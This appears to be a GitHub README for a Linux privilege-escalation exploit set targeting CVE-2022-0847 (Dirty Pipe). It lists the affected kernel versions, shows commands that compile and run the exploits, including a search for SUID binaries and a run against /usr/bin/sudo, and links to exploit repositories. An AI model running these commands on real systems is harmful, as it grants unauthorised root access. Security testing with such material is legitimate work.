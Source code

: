 - [Linux](#linux)

<p align='justify'>
    Privilege escalation is the act of exploiting a bug, a design flaw, or a configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user   
    The result is that an application with more privileges than intended by the application developer or system administrator can perform unauthorized actions. 
</p>

 ####  Support 

- Linux kernel versions newer than `5.8` are affected.

- Later fixed on `5.16.11` 
`5.15.25` 
`5.10.102`

### Requirements 

`gcc`

### Exploit 1

```

gcc CVE-2022-0847-exploit.c -o exploit-1

./exploit-1 
```

### Exploit 2

```

gcc CVE-2022-0847-exploit2.c -o exploit-2

find / -perm -4000 2>/dev/null

./exploit-2 /usr/bin/sudo

```

[Source](https://en.wikipedia.org/wiki/Privilege_escalation)  




## Linux 

1. [`CVE-2022-0847`](#CVE-2022-0847)
<p align='justify'>
CVE-2022-0847, a vulnerability in the Linux kernel since 5.8 which allows overwriting data in arbitrary read-only files. This leads to privilege escalation because unprivileged processes can inject code into root processes.</p>


### Source / Credits 

- [link](https://dirtypipe.cm4all.com/)

- [link](https://github.com/febinrev/dirtypipez-exploit)

- [link](https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker)

- [link](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)


2. [`Dirty Cow`](https://dirtycow.ninja/)


